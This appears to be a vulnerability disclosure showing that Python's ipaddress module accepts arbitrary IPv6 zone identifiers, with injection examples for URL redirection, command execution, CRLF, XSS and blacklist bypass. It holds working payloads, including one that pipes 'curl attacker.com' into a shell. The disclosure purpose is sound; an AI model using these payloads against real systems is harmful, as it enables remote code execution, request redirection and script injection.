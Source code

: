 We've confirmed that the library returns the Zone Identifier. It's important to understand that many developers are not aware of this behavior, which leads to injections.

A few real-life examples:
## URL formating
Example:
```py
addr = ipaddress.ip_address('::1%61]@example.com#')
url = f"https://[{addr}]:80/info"
```
In such cases, it's possible to bypass the brackets `[]` and redirect the request using `@` to a destination different from what the developer expects.
Also works with `parsed_url._replace`:
```py
parsed_url._replace(netloc="[::1%61]@example.com")
```

## RCE
In some cases (if you're very lucky), this can lead to the possibility of executing code:

```py
os.system(f"ping -c 1 {addr} > ./file")
```

We can't use the "/" symbol, but it's still possible to execute code:

```py
>>> ipaddress.ip_address('::1%;curl attacker.com | sh;')
IPv6Address('::1%;curl attacker.com | sh;')
```

## Another
It's important to understand that achieving CRLF is also possible in some use cases:
```
>>> ipaddress.ip_address('::1%\r\nasd')
IPv6Address('::1%\r\nasd')
```
Also you can try to get XSS with:
```
https://[::1%<h1>slon<h1>]
```
Python will parse hostname as:
```
::1%<h1>slon<h1>
```

Also, it is important to understand that:


```
>>> ipaddress.ip_address('::1%a') == ipaddress.ip_address('::1%b')
False
```

When comparing, we will find that these are different addresses, but it is the same address, only leading through different zones. In some cases, this allows bypassing blacklist checks.
